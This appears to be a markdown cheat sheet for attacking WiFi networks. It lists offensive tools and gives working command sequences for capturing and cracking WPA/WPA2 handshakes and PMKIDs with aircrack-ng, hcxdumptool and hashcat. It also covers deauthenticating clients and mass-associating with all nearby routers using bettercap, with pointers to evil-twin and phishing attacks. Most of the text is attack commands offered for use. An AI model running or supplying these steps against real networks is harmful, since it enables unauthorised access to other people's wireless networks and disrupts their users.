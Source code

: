 ## Tools 

- Airgeddon: <https://github.com/v1s1t0r1sh3r3/airgeddon>
- wifite2 - Attack multiple WEP and WPA encrypted networks at the same time: <https://github.com/derv82/wifite2>
- WIFIPhisher - Phishing attack tool for Wifi networks: <https://github.com/wifiphisher/wifiphisher>
- WiFi Wardriving with Android - WiGLE WiFi Wardriving: <https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en>

## Quick Reference 
- Capture and crack handshake:
    ```
    aircrack-ng captured.cap​
    aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
    ```
- WPA/WPA2 PMKID
  - STEP 1:
    - <https://github.com/ZerBea/hcxdumptool>
    - <https://github.com/aircrack-ng/aircrack-ng>
  - STEP 2: Find target BSSID:
    - `airodump-ng <int>`
  - STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
    - `hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap`
  - STEP 4: Extract PMKID into hashcat format for cracking:
    - <github.com/ZerBea/hcxtools>
    - `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`
  - STEP 5: Crack:
    - `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`
  - <https://mobile.twitter.com/netmux/status/1097908867374215168>
- WPA enterprise (evil tween attack)
  - <https://pwn.no0.be/exploitation/wifi/wpa_enterprise/>
  - <https://rootsh3ll.com/evil-twin-attack/>
- 4 way handshake capture:
    ```bash
    sudo bettercap -iface wlan0
    ```
  - this will set the interface in monitor mode and start channel hopping on all supported frequencies: `wifi.recon on`
  - we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`: 
    ```bash
    set wifi.show.sort clients desc
    ```
  - every second, clear our view and present an updated list of nearby WiFi networks
    ```bash
    set ticker.commands 'clear; wifi.show'
    ticker on
    ```
  - other
    ```bash
    wifi.recon.channel 1
    ```
    ```bash
    wifi.deauth e0:xx:xx:xx:xx:xx
    ```
- Cracking 4-way handshake:
    ```bash
    /path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
    /path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
    ```
- Client-less **PMKID Attack**
  - <https://hashcat.net/forum/thread-7717.html>
  - PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
    ```bash 
    # wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
    wifi.assoc all
    ```
  - All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:
- PMKID Cracking
    ```bash 
    /path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
    /path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
    ```

## References

**New References**

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
